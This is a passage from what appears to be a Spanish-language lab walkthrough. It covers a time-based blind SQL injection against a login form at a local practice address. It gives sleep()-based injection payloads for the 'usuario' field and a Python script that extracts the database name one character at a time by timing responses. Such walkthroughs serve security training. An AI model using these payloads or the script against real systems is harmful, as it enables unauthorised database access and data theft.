 ```bash
```

Ahora debemos determinar la longitud de la based de datos: Logramos determinar la longituda de la base de datas:
```bash
usuario=admin' or if(length(database())>=6, sleep(3), 0)-- -&contrasena=admin123
```

Ahora sabemos que el primer caracter de la base de datos es la letra **i**
```bash
usuario=admin' or if(substring(database(),1,1)='i', sleep(3), 0)-- -&contrasena=admin123
```

Ahora necesitamos automatizar estraer el nombre completo de la base de datos para en base a eso poder seguir enumerando
Este es nuestro script en python **sqli_cristal.py**
```python
#!/usr/bin/env python3

# Librerias
from termcolor import colored as c 
import requests
import time 
import sys
import signal
import string

# Fucniones personalizadas
def ctr_c(sig, frame):
    print(c(f"\n[-] Saliendo...", "red"))
    sys.exit(1)

signal.signal(signal.SIGINT, ctr_c)

# Variables globales
main_url = "http://172.17.0.2/Certificacion/login.php"
characters = string.ascii_letters + string.digits + '_,'

def main():
    print(c(f"\n[+] Iniciando ataque...\n", "red"))

    extracted_data = ""

    for position in range(1,7):
        for character in characters:
            payload = f"admin' or if(substring(database(),{position},1)='{character}', sleep(2), 0)-- -"
            
            time_start = time.time()
            r = requests.post(main_url, data={"usuario": payload, "contrasena": "admin123"})
            time_end = time.time()

            if time_end - time_start > 2:
                extracted_data += character
                break

    print(c(f"\n[+] Nombre de la base de datos: ( {extracted_data} )", "green"))

# flujo principal del programa
if __name__ == '__main__':
    main()
```
